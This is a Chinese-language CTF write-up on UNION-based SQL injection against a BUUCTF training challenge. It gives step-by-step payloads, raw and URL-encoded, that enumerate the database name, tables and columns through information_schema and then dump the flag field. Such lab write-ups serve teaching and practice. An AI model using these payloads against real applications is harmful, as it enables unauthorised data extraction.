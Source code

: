```yaml
---
title: 联合查询
createTime: 2025/02/06 20:37:26
permalink: /ctf/mbbqewrf/
---
```

> 例题：BUUCTF N1BOOK \[第一章 web入门\]SQL注入-1

## 查数据库名

```txt
http://example.com/index.php?id=4' union select 1,database(),3#
```

```txt
http://example.com/index.php?id=4%27%20union%20select%201%2cdatabase()%2c3%23
```

```sql
select * from notes where id ='4' union select 1,database(),3
```

结果：

![1737908456337](image/1.字符型注入/1737908456337.png)

## 查表名

```txt
http://example.com/index.php?id=4' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()#
```

```txt
http://example.com/index.php?id=4%27%20union%20select%201,2,group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=database()%23
```

```sql
union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()
```

结果：

![1737908437720](image/1.字符型注入/1737908437720.png)

## 查字段名

```txt
http://example.com/index.php?id=4' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='fl4g'#
```

```txt
http://example.com/index.php?id=4%27%20union%20select%201,2,group_concat(column_name)%20from%20information_schema.columns%20where%20table_schema=database()%20and%20table_name=%27fl4g%27%23
```

```sql
select * from notes where id ='4' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='fl4g'
```

> 这里的 `fl4g` 是上一步查到的表名

结果：

![1737909276928](image/1.字符型注入/1737909276928.png)

## 查字段内容

```txt
http://example.com/index.php?id=4' union select 1,database(), group_concat(fllllag) from fl4g#
```

```txt
http://example.com/index.php?id=4%27%20union%20select%201%2cdatabase()%2c%20group_concat(fllllag)%20from%20fl4g%23
```

```sql
select * from notes where id ='4' union select 1,database(), group_concat(fllllag) from fl4g
```

> 这里的 `fl4g` 和 `fllllag` 是上两步查到的表名和字段名

结果：

![1737909647671](image/1.字符型注入/1737909647671.png)

## ***Cracked.***
